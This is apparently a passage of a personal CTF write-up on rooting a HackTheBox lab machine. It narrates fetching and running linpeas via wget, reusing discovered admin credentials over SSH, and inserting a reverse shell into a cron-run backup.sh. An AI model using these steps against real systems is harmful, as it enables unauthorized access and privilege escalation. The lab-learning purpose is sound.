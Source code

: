 - After gaining this, I did not have root access immediately (actually took me a while to figure out what to do from here), but after some research, I figured out that I needed some privilege escalation for which I found this https://github.com/carlospolop/PEASS-ng which gave information on how to gain that escalation. I ran this, after opening my port 80 and running `wget HTTP://{IP}/linpeas`, changing the mode to executable and running it
    - <img width="781" alt="Screenshot_2023-06-02_at_9 06 14_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/21ee70fc-50af-4e22-b191-365e4a4ac372">
    
- After running that script, there was some vulnerability that I discovered, which was a user (admin) and password.
    - <img width="541" alt="Screenshot_2023-06-02_at_9 21 15_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/d94f0bdd-780c-4b1d-9ecb-8bda4e0aa4a8">
    - <img width="1008" alt="Screenshot_2023-06-02_at_9 26 13_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/29139e3a-ce21-4ec3-80b8-8db1aa7e65f2">
    - <img width="501" alt="Screenshot_2023-06-02_at_9 27 17_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/88658993-5011-4f50-afce-015f4681a11a">
    
- I connect to it through ssh. I did not have `sudo` access so I needed some privilege escalation for this as well.
- After seeing that there was a .sh file (inside had time instructions), I tried to see the `cron jobs` to see if it was scheduled, but I had no permission to run `crontab -l`, so I followed the same procedure like the one above (with the open port 80) and installed https://github.com/DominicBreuker/pspy which can be run even when you don't have access to `crontab -l`
- After this, it was clear that the `backup.sh` was getting updated, and I used `vim` to add bash reverse shell code from [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - <img width="662" alt="Screenshot_2023-06-02_at_9 30 14_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/ad099a40-7f19-4f92-8c33-629d33436dcb">

- After doing that, the `backup.sh` got updated and I got root access
    - <img width="336" alt="Screenshot_2023-06-02_at_9 44 39_PM" src="https://github.com/ErlisI/ctf-writeups/assets/63165733/8aef1c8c-7ce8-459f-b1f4-2708224c0c25">

P.S: Even though this machine was labeled as easy, it didn't actually feel easy and I can say it took a little too long to get here, and A LOT OF RESEARCH LOL!

***Also chek it out [here](https://e-ctf-writeups.notion.site/HackTheBox-Academy-4567e157d2934ce384586ef839c814d3?pvs=4)***

